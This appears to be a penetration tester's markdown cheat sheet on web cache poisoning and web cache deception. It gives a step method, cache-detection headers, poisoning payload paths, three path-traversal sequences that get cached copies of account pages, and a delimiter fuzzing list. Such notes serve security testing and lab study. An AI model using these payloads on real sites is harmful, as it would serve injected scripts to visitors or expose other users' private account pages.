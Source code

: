 [#](#) Web Cache Poisoning

Get the cached key

    Pragma: x-get-cache-key
 
1. Find a point of injection that is reflected in the response (get param, header, cookie)
2. Confirm that this "point of injection" is not part of the cached keys.
4. Create a payload (xss, redirect, etc...)
    - string from a GET params or cookie (-> escape the string and XSS)
    - host from x-headers-type (-> redirect to exploit server)

### Detecting Cache Response:

* X-Cache
    * X-Cache: miss -> missed the cache (request sent to web server directly)
    * X-Cache: hit  -> hit the cached (not the web server)
    * X-Cache: dynamic -> origin server dynamically generated the content. Generally this means the response is not suitable for caching
    * X-Cache: refresh -> content was outadated

* Cache-Control:
    * Cache-Control: public -> suggests that the resource is cacheable, but cache might overide this header

* Response time might also indicate caching

### Param Miner:

- Guess query params: some query params are excluded from cached key
- Guess everything!

### Payloads Cache Poisoning (OPTIONS, HEAD, GET)

* Pragma: x-get-cache-key
* /?cb=AAAA&utm_content=BBBBB
* /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=arbitraryFunction

### Payloads Cache Deception (OPTIONS, HEAD, GET)

T1

1. /profile
2. /profileAAAA
3. /profile;AAAA
4. /profile;AAAA.css
5. X-Cache: miss

T2 

1. /AAAA/..%2fmy-account
2. Find folder that are cached (/resources, /assets, /static)
3. /resources/..%2fmy-account
4. X-Cache: miss

T3 
 
1. /my-account%23AAAA
2. /AAAA/..%2fmy-account
3. Find folder that are cached (/resources, /assets, /static)
4. /AAAA/..%2fresources/labs.css
5. 404 Cache: Miss
6. /resources/..%2fLabs.css
7. 404 (no cache -> cache decode ..%2f)
8. /my-account%23%2f%2e%2e%2fresources (%23 is used for delimiter)

Web Cache Delimiter List: 

`(turn off intruder encoding)`

`(browsers URL-encode characters like {, }, <, and >, and use # to truncate the path. If the cache or origin server decodes these characters)`


```
!
"
#
$
%
&
'
(
)
*
+
,
-
.
/
:
;
<
=
>
?
@
[
\
]
^
_
`
{
|
}
~
%21
%22
%23
%24
%25
%26
%27
%28
%29
%2A
%2B
%2C
%2D
%2E
%2F
%3A
%3B
%3C
%3D
%3E
%3F
%40
%5B
%5C
%5D
%5E
%5F
%60
%7B
%7C
%7D
%7E
%00
%0A
%09
```
